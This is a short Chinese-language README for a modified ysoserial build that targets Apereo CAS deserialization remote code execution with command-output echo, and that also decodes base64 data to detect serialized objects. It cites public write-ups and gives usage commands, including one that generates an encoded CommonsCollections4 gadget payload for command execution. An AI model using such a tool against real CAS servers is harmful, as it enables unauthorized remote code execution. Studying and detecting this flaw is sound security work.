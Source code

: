 ## ApereoCas反序列化回显与检测
### 0x01 前言
工具源码来源于
```
https://github.com/frohoff/ysoserial
```
改造思路来源于
```
https://www.00theway.org/2020/01/04/apereo-cas-rce/
https://www.anquanke.com/post/id/198842
https://www.freebuf.com/vuls/226149.html
```

### 0x02 使用方法

命令执行：

```
java -jar ysoserial-managguogan-0.0.1-SNAPSHOT-all.jar encode CommonsCollections4
```
![create](create.jpg)
![execute](execute.jpg)
CommonsCollections4 这个payload可以自行修改，选项可参考ysoserial的用法

检测：

```
java -jar ysoserial-managguogan-0.0.1-SNAPSHOT-all.jar decode base64string 1.txt
```
base64string应该注意把前面的杂乱数据去掉，比如
![base64](base64.jpg)
![detect](detect.jpg)
1.txt是把序列化数据存入到1.txt文件中


